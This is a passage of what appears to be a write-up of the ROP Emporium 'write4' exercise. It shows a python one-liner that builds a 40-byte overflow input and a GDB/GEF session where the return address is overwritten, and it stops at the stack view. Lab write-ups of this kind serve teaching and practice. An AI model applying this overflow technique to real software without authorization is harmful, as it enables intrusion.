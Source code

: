 We are able to overwrite the return address of the target after writing 40 bytes via buffer overflow.

```bash
$ python -c "print('A'*40 + 'BBBBBBBB')" > input
$ gdb write4 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 9.2 using Python engine 3.8
[*] 2 commands could not be loaded, run `gef missing` to know why.
/home/n/.gdbinit:2: Error in sourced command file:
source command requires file name of file to source.
Reading symbols from write4...
(No debugging symbols found in write4)
gef➤  r < input
Starting program: /home/n/Documents/Exploitation/ropemporium/write4/write4 < input
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> Thank you!

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7dc7942 in pwnme () from ./libwrite4.so
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0x0000000000400630  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007ffff7cbf1e7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffdd98  →  "BBBBBBBB"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007ffff7d9a723  →  0xd9c4c0000000000a
$rdi   : 0x00007ffff7d9c4c0  →  0x0000000000000000
$rip   : 0x00007ffff7dc7942  →  <pwnme+152> ret 
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0x00007ffff7dc74c9  →  0x6972700064616572 ("read"?)
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffde90  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
```